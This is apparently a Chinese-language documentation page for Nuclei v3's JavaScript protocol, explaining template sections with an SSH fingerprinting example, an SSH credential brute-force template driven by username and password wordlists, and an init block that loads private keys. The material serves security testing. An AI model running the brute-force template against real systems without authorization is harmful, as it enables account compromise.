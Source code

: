 ```yaml
---
title: "JavaScript 协议"
description: "查看 Nuclei v3 中的 JavaScript 示例"
sidebarTitle: "协议"
---
```


JavaScript 协议被添加到 Nuclei v3 中，允许你用 JavaScript 编写检查和检测漏洞，并弥合网络协议之间的差距。

- 内部使用 JavaScript 协议编写的任何内容都在 Golang 中执行。
- JavaScript 协议**不**旨在适配或导入 Nuclei 生态系统之外的任何现有 JavaScript 库或框架。
- Nuclei 提供了一套专为编写漏洞利用和检查而量身定制的函数、库，只添加必要的功能来补充现有的基于 YAML 的 DSL。
- JavaScript 协议**不**旨在用作通用 JavaScript 运行时，也不会替代 Nuclei 的 matchers、extractors 或任何现有功能。
- Nuclei v3.0.0 附带了**15+ 库（ssh、ftp、RDP、Kerberos 和 Redis）**，专为在 JavaScript 中编写漏洞利用和检查而定制，未来将不断扩展。

## 简单示例

以下是 JavaScript 协议模板的基本示例：

```yaml
id: ssh-server-fingerprint

info:
  name: Fingerprint SSH Server Software
  author: Ice3man543,tarunKoyalwar
  severity: info
  

javascript:
  - code: |
      var m = require("nuclei/ssh");
      var c = m.SSHClient();
      var response = c.ConnectSSHInfoMode(Host, Port);
      to_json(response);
    args:
      Host: "{{Host}}"
      Port: "22"

    extractors:
      - type: json
        json:
          - '.ServerID.Raw'
```

在上面的 Nuclei 模板示例中，我们通过以非认证模式连接并提取服务器横幅来识别 SSH 服务器软件。让我们分解一下这个模板。

### 代码部分
`code:` 包含在运行时由 Nuclei 执行的实际 JavaScript 代码。在上面的模板中，我们：

- 导入 `nuclei/ssh` 模块/库
- 创建 `SSHClient` 对象的新实例
- 以 `Info` 模式连接到 SSH 服务器
- 将响应转换为 json

### 参数部分
`args:` 部分可以简单理解为在运行时传递的 JavaScript 变量，支持 DSL 使用。

### 输出部分
最后一个表达式的值作为 JavaScript 协议模板的输出返回，可以在 matchers 和 extractors 中使用。如果服务器返回错误，则在 matcher 或 extractor 中会暴露带有错误消息的 `error` 变量。

## SSH 暴力破解示例

**SSH 密码暴力破解模板**

```yaml
id: ssh-brute

info:
  name: SSH Credential Stuffing
  author: tarunKoyalwar
  severity: critical
  

javascript:
  - pre-condition: |
      var m = require("nuclei/ssh");
      var c = m.SSHClient();
      var response = c.ConnectSSHInfoMode(Host, Port);
      // 只有当 ssh 服务器允许基于密码的认证时才进行暴力破解
      response["UserAuth"].includes("password")

    code: |
      var m = require("nuclei/ssh");
      var c = m.SSHClient();
      c.Connect(Host,Port,Username,Password);

    args:
      Host: "{{Host}}"
      Port: "22"
      Username: "{{usernames}}"
      Password: "{{passwords}}"

    threads: 10
    attack: clusterbomb
    payloads:
      usernames: helpers/wordlists/wp-users.txt
      passwords: helpers/wordlists/wp-passwords.txt

    stop-at-first-match: true
    matchers:
      - type: dsl
        dsl:
          - "response == true"
          - "success == true"
        condition: and
```

在上面的示例模板中，我们使用用户名和密码列表对 ssh 服务器进行暴力破解。我们可以看出，这可能无法通过网络模板实现。让我们分解一下这个模板。

### 前置条件

`pre-condition` 是在运行 "code" 之前执行的可选 JavaScript 代码部分，它作为漏洞利用的前提条件。在上面的模板中，在尝试暴力破解之前，我们检查：
 
- 该地址确实是 SSH 服务器。
- ssh 服务器配置为允许基于密码的认证。

**进一步解释** 
- 如果 pre-condition 返回 `true`，则只执行 `code`；否则，跳过。
- 在代码部分，我们导入 `nuclei/ssh` 模块并创建 `SSHClient` 对象的新实例。
- 然后我们尝试使用用户名和密码连接到 ssh 服务器。
该模板使用 [payloads](https://docs.projectdiscovery.io/templates/protocols/http/http-payloads) 启动具有 10 个线程的 clusterbomb 攻击，并在首次匹配时退出。

现在看这个模板，我们可以看出 JavaScript 模板在编写多步骤和协议/供应商特定的漏洞利用方面非常强大，这是 JavaScript 协议的主要目标。


## 初始化

`init` 是一个可选的 JavaScript 部分，可用于初始化模板，它在编译模板后、在任何目标上运行之前执行。虽然很少需要，但它可以用于在针对任何目标运行模板之前加载和预处理数据。

例如，在下面的代码块中，我们从 `nuclei-templates/helpers` 目录加载所有 ssh 私钥，并将它们作为名为 `keys` 的变量存储在 payloads 中。如果我们从 "pre-condition" 代码块加载私钥，那么它将为每个目标加载，这不是理想的。

```
variables:
  keysDir: "helpers/"  # 从此目录加载所有私钥

javascript:
    # init 字段可用于在实际漏洞利用之前进行任何准备工作
    # 这里我们从 helpers 文件夹读取所有私钥并将它们存储在列表中
  - init: |
      let m = require('nuclei/fs');
      let privatekeys = m.ReadFilesFromDir(keysDir)
      updatePayload('keys',privatekeys)

    payloads:
      # 'keys' 将在 init 执行后由实际私钥更新
      keys: 
        - key1
        - key2
```

`init` 块中有两个特殊功能


| 函数                       | 描述                                 |
| -------------------------- | ------------------------------------ |
| `updatePayload(key,value)` | 使用给定的键和值更新 payload        |
| `set(key,value)`           | 使用给定的键和值设置变量            |

可以在[这里](https://github.com/projectdiscovery/nuclei-templates/pull/8530)找到 JavaScript 协议模板的集合。
